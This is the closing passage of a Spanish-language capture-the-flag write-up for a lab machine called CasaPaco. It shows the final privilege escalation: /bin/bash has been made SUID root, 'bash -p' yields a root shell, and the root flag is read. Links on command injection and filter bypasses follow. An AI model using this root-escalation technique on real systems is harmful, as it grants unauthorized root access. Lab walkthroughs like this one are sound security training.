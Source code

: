 Espera un minuto y vuelve a revisar los permisos de la **Bash**:
```bash
pacogerente@Thehackerslabs-CasaPaco:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 mar 29  2024 /bin/bash
```

Ya podemos ejecutar la **Bash** con privilegios:
```bash
pacogerente@Thehackerslabs-CasaPaco:~$ bash -p
bash-5.2# whoami
root
```

Obtengamos la última flag:
```bash
bash-5.2# cd /root
bash-5.2# ls
root.txt
bash-5.2# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://techbrunch.github.io/patt-mkdocs/Command%20Injection/#filter-bypasses
* https://hacktricks.boitatech.com.br/linux-unix/useful-linux-commands/bypass-bash-restrictions
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
* https://portswigger.net/web-security/os-command-injection
* https://github.com/DominicBreuker/pspy


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>

